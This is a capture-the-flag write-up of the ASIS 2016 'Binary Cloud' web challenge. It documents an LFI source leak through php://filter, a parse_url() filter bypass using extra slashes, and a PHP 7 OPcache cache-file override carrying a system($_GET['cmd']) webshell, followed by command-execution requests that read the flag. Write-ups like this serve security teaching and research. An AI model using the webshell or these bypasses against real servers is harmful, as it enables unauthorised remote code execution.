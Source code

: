 ```yaml
---
layout: post
title: Binary Cloud
category: ASIS 2016
---
```


You can upload anything you want! (But please, do not inject php files.)
Due to the security issues, you can only upload one file per request.
Note that the server removes all uploaded/cached files every minute.

Regards,
ASIS Team.

---

#### The Challenge

This was a very fun challenge for me, as it was based off my own [research](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/).

**1. Information Gathering**

I started things off by looking for a `robots.txt` file.

Going to `https://binarycloud.asis-ctf.ir/robots.txt` shows us three entries :

![robots](/assets/img/asis-2016/robots.png){:width="200"}

Visiting the `/cache` and `/uploads` pages show us a `forbidden` message.
On the other hand, following the link `/debug.php` gives us a `phpinfo()` page!

![phpinfo](/assets/img/asis-2016/phpinfo.png)

From this page, we know that they're running PHP 7.0.4.

As the description and `robots.txt` mentionned cache files, I checked if OPcache is enabled. Turns out it is, and its location corresponds to the `/cache` folder found in the robots.txt file :

``` ini
opcache.file_cache=/home/binarycloud/www/cache
```
**2. Obtaining the Source Code**

Looking at the URLs, we can notice right away a potential LFI vulnerability, as the upload module URL looks like the following :

```
https://binarycloud.asis-ctf.ir/?page=upload
```

We can use [PHP wrappers](http://php.net/manual/en/wrappers.php.php) to obtain the source code :

```
http://binarycloud.asis-ctf.ir?page=php://filter/convert.base64-encode/resource=upload
```

Viewing the source of the URL above will give us the `base64` encoded source code :

![base64](/assets/img/asis-2016/base64.png)

This is a section of the `upload.php` script :

``` php
<?php
function ew($haystack, $needle) {
    return $needle === "" || (($temp = strlen($haystack) - strlen($needle)) &gt;= 0 &amp;&amp; strpos($haystack, $needle, $temp) !== false);
}

function filter_directory(){
  $data = parse_url($_SERVER['REQUEST_URI']);
  $filter = ["cache", "binarycloud"];
  foreach($filter as $f){
    if(preg_match("/".$f."/i", $data['query'])){
      die("Attack Detected");
    }
  }
}

function error($msg){
  die("&lt;script&gt;alert('$msg');history.go(-1);&lt;/script&gt;");
}

filter_directory();

if($_SERVER['QUERY_STRING'] &amp;&amp; $_FILES['file']['name']){
  if(!file_exists($_SERVER['QUERY_STRING'])) error("error3");
  $name = preg_replace("/[^a-zA-Z0-9\.]/", "", basename($_FILES['file']['name']));
        if(ew($name, ".php")) error("error");
  $filename = $_SERVER['QUERY_STRING'] . "/" . $name;
  if(file_exists($filename)) error("exists");
  if (move_uploaded_file($_FILES['file']['tmp_name'], $filename)){
    die("uploaded at &lt;a href=$filename&gt;$filename&lt;/a&gt;&lt;hr&gt;&lt;a href='javascript:history.go(-1);'&gt;Back&lt;/a&gt;");
  }else{
    error("error");
  }
}
?>
```

From this code, we know that :

  - We can't upload `.php` files.
  - Our request URI must not contain the strings `cache` or `binarycloud`.
  - Our filename is filtered through `preg_replace()` and `basename()`.

Since we can't upload `.php` files, the goal will most likely be to inject `.php.bin` files in the `/cache` folder so we can run our own code.

**3. Bypass filter_directory()**

The upload module takes the query string of our POST request and uses it as the destination folder for our file.

Sending a POST request at `/upload.php?TEST` will try to upload our file in the `TEST/` folder.

Since we want to upload in the `cache/` folder, we need to send our POST request to `/upload.php?cache`.
The problem here is that `filter_directory` will block us from using the `cache` keyword :

``` php
<?php
function filter_directory(){
  $data = parse_url($_SERVER['REQUEST_URI']);
  $filter = ["cache", "binarycloud"];
  foreach($filter as $f){
    if(preg_match("/".$f."/i", $data['query'])){
      die("Attack Detected");
    }
  }
}
?>
```

This function can be bypassed though, as `parse_url` takes a `URL` as a parameter. It does not deal well with `URIs`.

Sending a request to `///upload.php?cache` (note the additional slashes) will make `parse_url()` interpret the `URI` as a malformed `URL` and will return `false`. Therefore, `preg_match()` will never match the filtered strings.

**4. Creating our Payload**


As we've mentionned earlier, the challenge uses OPcache as their caching engine.

Our goal is to override the cache file of either `debug.php`, `index.php` or `upload.php`, so that when we'll request those pages, the webserver will serve up our malicious cache file instead of the original content.

We'll need my tools on [github](https://github.com/GoSecure/php7-opcache-override). We also have a full guide on how to override cache files [here](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/).

From the `debug.php` page, we know that it's an x86_64 platform. I deployed a 64 bit Ubuntu VM with PHP 7 installed and I generated a cache file named `debug.php.bin`.

The generated cache file is a compiled version of the following webshell :

``` php
<?php
  system($_GET['cmd']);
?>
```

I then calculated the `system_id` used by our target webserver by using the `system_id_scraper.py` script found in my github repo :

``` shell
$ ./system_id_scraper.py https://binarycloud.asis-ctf.ir/debug.php
PHP version : 7.0.4-7ubuntu2
Zend Extension ID : API320151012,NTS
Zend Bin ID : BIN_SIZEOF_CHAR48888
Assuming x86_64 architecture
------------
System ID : 81d80d78c6ef96b89afaadc7ffc5d7ea
```

Finally, I changed the `system_id` of `debug.php.bin` with the one of the server using a hex editor.

The resulting `debug.php.bin` is a compiled version of a webshell configured to be used by the server's OPcache.

**5. Finale**

Finally, it's time to send our payload.

I uploaded the `debug.php.bin` file and intercepted it with Burpsuite. At this point, we have to set the path of the server-side `debug.php.bin` that we want to overwrite.

The path of the current `debug.php.bin` is at `[cache location][system id][document root][debug.php.bin]`. The only thing missing is the document root, which is available in the `/debug.php` page.

We also need to add the extra slashes to bypass the `filter_directory()` function.

Here's my payload :

![payload](/assets/img/asis-2016/payload.png)

Now, when we navigate to `https://binarycloud.asis-ctf.ir/debug.php`, we have our webshell!

The flag is located at the root of the filesystem :

``` shell
$ wget -qO- https://binarycloud.asis-ctf.ir/debug.php?cmd="ls /"
WH4T_1S_7H3_FL4G
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```
``` shell
$ wget -qO- https://binarycloud.asis-ctf.ir/debug.php?cmd="cat /WH4T_1S_7H3_FL4G"
ASIS{5e00f204374f9ce481acc97294eda1f0}
```

**Flag :** ASIS{5e00f204374f9ce481acc97294eda1f0}
